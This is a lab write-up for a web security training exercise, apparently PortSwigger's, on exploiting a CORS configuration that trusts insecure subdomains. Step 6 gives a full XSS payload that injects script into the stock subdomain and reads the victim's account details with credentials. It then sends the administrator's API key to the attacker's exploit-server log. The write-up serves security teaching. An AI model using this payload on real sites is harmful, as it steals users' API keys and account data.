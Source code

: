 ----

### Lab description

This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

#### Lab description

> If you could man-in-the-middle attack (MITM) the victim, you could use a MITM attack to hijack a connection to an insecure subdomain, and inject malicious JavaScript to exploit the CORS configuration. Unfortunately in the lab environment, you can't MITM the victim, so you'll need to find an alternative way of injecting JavaScript into the subdomain.

1. Log with `wiener` 
2. Go to `accountDetails` endpoint
3. Go to any product description at the Home of the application
4. Click on check stock
5. Notice that the subdomain `stock.<lab-id>` is vulnerable to XSS at `prodcutId` parameter

![](/static/img/Pasted_image_20230724214410.png)

6. Go to exploit server and paste the following payload
```html
`<script> document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1" </script>`
```
7. Click on store and after send to the victim
8. Go to the logs and paste the solution (admin apikey) at (Submit solution button)

![](/static/img/Pasted_image_20230724214748.png)
